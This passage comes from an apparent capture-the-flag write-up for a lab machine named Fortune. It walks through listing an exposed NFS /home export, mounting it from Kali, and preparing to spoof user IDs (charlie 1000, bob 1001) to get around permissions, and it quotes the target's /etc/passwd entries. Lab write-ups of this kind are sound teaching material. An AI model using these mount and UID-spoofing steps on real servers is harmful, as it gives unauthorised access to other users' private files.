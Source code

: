 
    root@kali# showmount -e 10.10.10.127
    Export list for 10.10.10.127:
    /home (everyone)



The `/home` is not a safe thing to have, as I have access to user home
directories now.

## Shell as bob or charlie

### nsf access

I'll make a mount point and mount the nfs access:



    root@kali# mkdir /mnt/fortune
    root@kali# mount -t nfs 10.10.10.127:/home /mnt/fortune
    root@kali# ls /mnt/fortune/
    bob  charlie  nfsuser



I can also see that it is mounted as version 3, which means I can set my
uid locally and nfs will respect that on Fortune:



    root@kali# mount | grep fortune
    10.10.10.127:/home on /mnt/fortune type nfs (rw,relatime,vers=3,rsize=65536,wsize=65536,namlen=255,hard,proto=tcp,timeo=600,retrans=2,sec=sys,mountaddr=10.10.10.127,mountvers=3,mountport=988,mountproto=udp,local_lock=none,addr=10.10.10.127)



### UserID Spoofing

I'm currently running as root, userid 0, on my kali box. However, that
permission doesn't seem to be translating over to Fortune:



    root@kali# cd /mnt/fortune/charlie/
    -bash: cd: /mnt/fortune/charlie/: Permission denied



There is likely an option, `root_squash`, that doesn't allow root
connections over nfs, and rather converts them to nobody.

Still, I can try other uids. I'll remember from `/etc/passwd` that
charlie is 1000 and bob is 1001:



    fortune> cat /etc/passwd | grep -e bob -e charlie
    charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
    bob:*:1001:1001::/home/bob:/bin/ksh


